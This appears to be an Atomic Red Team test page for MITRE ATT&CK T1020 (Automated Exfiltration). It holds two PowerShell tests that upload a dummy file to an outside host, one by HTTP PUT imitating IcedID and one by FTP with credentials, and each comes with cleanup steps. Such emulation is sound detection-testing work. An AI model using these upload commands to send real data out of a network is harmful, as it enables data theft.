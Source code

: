 # T1020 - Automated Exfiltration
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1020)
<blockquote>

Adversaries may exfiltrate data, such as sensitive documents, through the use of automated processing after being gathered during Collection.(Citation: ESET Gamaredon June 2020) 

When automated exfiltration is used, other exfiltration techniques likely apply as well to transfer the information out of the network, such as [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041) and [Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048).

</blockquote>

## Atomic Tests

- [Atomic Test #1 - IcedID Botnet HTTP PUT](#atomic-test-1---icedid-botnet-http-put)

- [Atomic Test #2 - Exfiltration via Encrypted FTP](#atomic-test-2---exfiltration-via-encrypted-ftp)


<br/>

## Atomic Test #1 - IcedID Botnet HTTP PUT
Creates a text file
Tries to upload to a server via HTTP PUT method with ContentType Header
Deletes a created file

**Supported Platforms:** Windows


**auto_generated_guid:** 9c780d3d-3a14-4278-8ee5-faaeb2ccfbe0





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file | Exfiltration File | string | C:&#92;temp&#92;T1020_exfilFile.txt|
| domain | Destination Domain | url | https://google.com|


#### Attack Commands: Run with `powershell`! 


```powershell
$fileName = "#{file}"
$url = "#{domain}"
$file = New-Item -Force $fileName -Value "This is ART IcedID Botnet Exfil Test"
$contentType = "application/octet-stream"
try {Invoke-WebRequest -Uri $url -Method Put -ContentType $contentType -InFile $fileName} catch{}
```

#### Cleanup Commands:
```powershell
$fileName = "#{file}"
Remove-Item -Path $fileName -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - Exfiltration via Encrypted FTP
Simulates encrypted file transfer to an FTP server. For testing purposes, a free FTP testing portal is available at https://sftpcloud.io/tools/free-ftp-server, providing a temporary FTP server for 60 minutes. Use this service responsibly for testing and validation only.

**Supported Platforms:** Windows


**auto_generated_guid:** 5b380e96-b0ef-4072-8a8e-f194cb9eb9ac





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| sampleFile | Path of the sample file to exfiltrate. | String | C:&#92;temp&#92;T1020__FTP_sample.txt|
| ftpServer | FTP server URL. | Url | ftp://example.com|
| credentials | FTP server credentials. | String | [user:password]|


#### Attack Commands: Run with `powershell`! 


```powershell
$sampleData = "Sample data for exfiltration test"
Set-Content -Path "#{sampleFile}" -Value $sampleData
$ftpUrl = "#{ftpServer}"
$creds = Get-Credential -Credential "#{credentials}"
Invoke-WebRequest -Uri $ftpUrl -Method Put -InFile "#{sampleFile}" -Credential $creds
```

#### Cleanup Commands:
```powershell
Remove-Item -Path "#{sampleFile}" -ErrorAction Ignore
```





<br/>
